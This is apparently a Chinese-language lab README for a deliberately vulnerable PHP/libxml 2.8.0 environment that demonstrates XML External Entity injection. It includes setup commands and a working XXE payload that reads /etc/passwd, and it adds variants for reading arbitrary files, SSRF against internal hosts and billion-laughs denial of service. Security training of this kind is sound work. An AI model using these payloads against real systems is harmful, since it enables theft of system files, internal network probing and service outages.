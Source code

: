 # PHP XML 外部实体注入漏洞（XXE）

XML 外部实体注入（XXE）是一种发生在应用程序解析 XML 输入时的安全漏洞。当 XML 解析器配置不当，处理包含对外部实体引用的 XML 输入时，可能导致敏感信息泄露、拒绝服务、服务器端请求伪造、端口扫描等多种攻击。

在 libxml 2.9.0 版本之后，默认禁用了外部实体解析，这在很大程度上缓解了 XXE 漏洞。本环境使用 libxml 2.8.0 版本编译进 PHP 中，以演示 PHP 应用中的 XXE 漏洞。PHP 版本本身并不影响 XXE 漏洞的利用。

参考链接：

- [OWASP XXE Prevention Cheat Sheet](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- [PHP Documentation: libxml](https://www.php.net/manual/en/book.libxml.php)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## 环境搭建

执行如下命令启动一个基于 PHP 7.0.30 和 libxml 2.8.0 的漏洞服务器：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 可以看到 phpinfo 页面。在页面中搜索 "libxml" 可以验证其版本为 2.8.0。

Web 根目录 `./www` 包含以下文件：

```bash
$ tree .
.
├── dom.php               # 示例：使用 DOMDocument 解析 XML
├── index.php
├── SimpleXMLElement.php  # 示例：使用 SimpleXMLElement 类解析 XML
└── simplexml_load_string.php  # 示例：使用 simplexml_load_string 函数解析 XML
```

这三个文件（`dom.php`、`SimpleXMLElement.php` 和 `simplexml_load_string.php`）都存在 XXE 漏洞。每个文件演示了一种可被利用的 PHP XML 解析方法。

## 漏洞复现

向上述3个文件发送以下 payload 即可读取 `/etc/passwd` 文件内容：

```xml
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<n>&xxe;</n>
</root>
```

执行结果示例：

![](1.png)

### 高级利用技巧

文件内容读取：

```xml
<!ENTITY xxe SYSTEM "file:///path/to/sensitive/file" >
```

SSRF（服务器端请求伪造）：

```xml
<!ENTITY xxe SYSTEM "http://internal.service.local" >
```

拒绝服务攻击（Billion Laughs Attack）：

```xml
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;">
```
